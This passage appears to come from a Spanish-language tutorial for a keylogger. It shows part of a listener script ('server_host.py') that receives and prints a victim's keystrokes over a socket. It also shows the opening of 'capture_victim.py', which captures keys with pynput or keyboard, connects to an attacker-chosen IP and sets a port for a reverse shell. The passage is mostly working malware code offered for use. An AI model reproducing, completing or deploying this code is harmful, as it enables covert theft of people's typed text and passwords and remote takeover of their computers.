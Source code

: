 ```python
        'Key.backspace': '[BACKSPACE]',
        'Key.shift': '',
        'Key.ctrl_l': '[CTRL]',
        'Key.alt_l': '[ALT]',
        'Key.cmd': '[CMD]',
    }
    return key_mappings.get(key, key.replace('Key.', '').replace('\'', ''))

# Recibir y procesar las teclas en tiempo real
try:
    while True:
        data = client_socket.recv(1024).decode('utf-8')
        if data:
            keys = data.split(' | ')
            cleaned_text = ''.join([simplify_key(key) for key in keys])
            print(Fore.YELLOW + Style.BRIGHT + '\rTexto recibido: ' + Fore.WHITE + cleaned_text + ' '*10)
        else:
            break
except Exception as e:
    print(Fore.RED + Style.BRIGHT + f"\n❌ Error en la conexión: {e}\n")
finally:
    client_socket.close()
    server_socket.close()
    print(Fore.MAGENTA + Style.BRIGHT + "\n🔒 Conexión cerrada.\n")
```

En este script `server_host.py` lo que tendremos que cambiar sera el puerto de la seccion `PORT =` y poner el puerto que queramos donde queremos que se nos envie la informacion que tendra que estar igual que en el script de `capture_victim.py`.

> capture\_victim.py

```python
import os
import socket
import sys
import platform
import subprocess
import threading
from colorama import Fore, Style, init

# Inicializar colorama
init(autoreset=True)

# Intentar importar pynput para entornos gráficos
try:
    from pynput import keyboard as pynput_keyboard
    use_pynput = True
except ImportError:
    use_pynput = False

# Importar keyboard para entornos no gráficos
if not use_pynput:
    import keyboard as kb

# Dirección IP y puerto del servidor
SERVER_IP = '<YOUR_IP>'  # Reemplaza con la IP del servidor
PORT = 7777
REVERSE_PORT = 7755  # Puerto para la shell reversa

# Crear un socket para conectarse al servidor
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((SERVER_IP, PORT))
```